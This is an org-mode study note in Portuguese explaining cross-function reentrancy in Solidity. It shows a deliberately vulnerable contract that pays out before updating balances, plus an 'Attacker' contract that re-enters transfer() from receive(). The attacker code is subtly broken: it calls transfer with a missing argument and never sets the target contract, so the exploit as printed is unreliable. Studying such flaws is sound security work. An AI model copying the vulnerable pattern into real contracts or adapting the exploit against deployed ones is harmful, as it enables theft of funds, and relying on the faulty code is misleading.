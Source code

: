 :PROPERTIES:
:ID:       41db13b6-000c-4c4a-8496-b83497cfe586
:END:
#+TITLE: Reentrada Entre Funções (Solidity)
#+DATE: 2023-09-11
#+FILETAGS: reentrancy

- tags :: [[id:410e9489-9d48-44a3-8125-abf61a8df4c8][Reentrada (SWC-107)]]
- source :: [[https://scsfg.io/hackers/reentrancy/#cross-function-reentrancy][Cross-Function Reentrancy (SCSFG)]]

É o tipo de reentrada que afeta o contexto de mais de uma função por elas compartilharem do mesmo estado.

* Vulnerabilidade
    No código abaixo, a função de saque irá pegar o saldo disponível do chamador da função e transferir para ele esse valor caso o contrato tenha ETH suficiente para isso. Se a transferência foi bem-sucedida, ele irá atualizar o saldo disponível do chamador da função.

    O problema é: se o chamador da função for um contrato, ele poderá usar ~receive()~ para executar a função ~transfer(address,uint256)~ antes que a função ~withdraw()~ atualize o saldo disponível do chamador da função.
  
  #+BEGIN_SRC solidity
    contract Vulnerable {
	mapping(address => uint256) public balances;

	function transfer(address to, uint256 amount) public {
	    if (balances[msg.sender] >= amount) {
		balances[to] += amount;
		balances[msg.sender] -= amount;
	    }
	}

	function withdraw() public {
	    uint256 amount = balances[msg.sender];
	    (bool success, ) = msg.sender.call{value: amount}("");
	    require(success);
	    balances[msg.sender] = 0;
	}
    }
  #+END_SRC

* Exploitando
  #+BEGIN_SRC solidity
    contract Attacker {
	Vulnerable public vulnerableContract;
	address public receiverAddress;

	constructor(address _receiverAddress) {
	    receiverAddress = _receiverAddress;
	}

	function attack() public {
	    vulnerableContract.withdraw();
	}

	receive() external payable {
	    vulnerableContract.transfer(receiverAddress);
	}
    }
  #+END_SRC
